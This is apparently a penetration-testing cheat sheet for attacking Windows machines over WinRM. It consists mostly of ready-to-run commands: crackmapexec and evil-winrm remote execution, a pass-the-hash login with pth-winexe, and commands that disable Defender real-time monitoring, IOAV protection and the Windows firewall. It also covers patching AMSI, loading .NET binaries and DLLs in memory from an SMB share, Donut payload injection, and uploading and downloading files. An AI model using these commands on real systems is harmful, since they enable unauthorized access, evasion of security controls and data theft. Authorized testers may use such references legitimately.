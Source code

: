 ### Basic Command  (  Port Required: `5985`)

```bash
# Command Shell
crackmapexec winrm 192.168.0.5-192.168.0.10 -u <user> -p <password> -x "whoami"
evil-winrm -u <user> -p <password> -i 192.168.0.10
pth-winexe -U Administrator%<NTLM Hash> //10.11.0.22 cmd

# Powershell
crackmapexec winrm 192.168.0.5-192.168.0.10 -u <user> -p <password> -X "whoami"

# To Check the Computer Protection and all
# AntispywareEnabled
# AntivirusEnabled
# OnAccessProtectionEnabled
# RealTimeProtectionEnabled
crackmapexec winrm 192.168.0.5-192.168.0.10 -u <user> -p <password> -X "Get-MpComputerstatus"
crackmapexec winrm 192.168.0.5-192.168.0.10 -u <user> -p <password> -X "netsh advfirewall show allprofiles"

# Disable Antivirus and Real time protection
crackmapexec winrm 192.168.0.5-192.168.0.10 -u <user> -p <password> -X "Set-MpPreference -DisableRealtimeMonitoring $true"
crackmapexec winrm 192.168.0.5-192.168.0.10 -u <user> -p <password> -X "Set-MpPreference -DisableIOAVProtection $true"
crackmapexec winrm 192.168.0.5-192.168.0.10 -u <user> -p <password> -X "netsh advfirewall set allprofiles state off"

```
***

### evil-winrm
-   **Bypass-4MSI**: patchs AMSI protection.
-   **Invoke-Binary**: allows .Net assemblies to be executed in memory.
	```
	Invoke-Binary /opt/csharp/Binary.exe param1,param2,param3
	```
- **Dll-Loader**: allows loading dll libraries in memory
	```
	Dll-Loader -smb -path \\192.168.139.132\\share\\myDll.dll
	```
- **Donut-Loader**: allows to inject x64 payloads generated with awesome [donut](https://github.com/TheWover/donut) technique.
- 
```bash
evil-winrm -u <user> -p <password> -i 192.168.0.10
	> menu 
		> Bypass-4MSI
		> Invoke-Binary
		> Dll-Loader
		> Donut-Loader

# Load any powershell script
evil-winrm -u <user> -p <password> -i 192.168.0.10 -s <directory>
	> Bypass-4MSI
	> powershell.ps1
	> menu
		.... (All powershell.ps1 function will be available)
```

##### Upload/Download files
```bash
> uplaod <local filepath> <target filepath>
> download <target filepath> <local filepath>
```

### Priv. Esclation
https://github.com/hausec/ADAPE-Script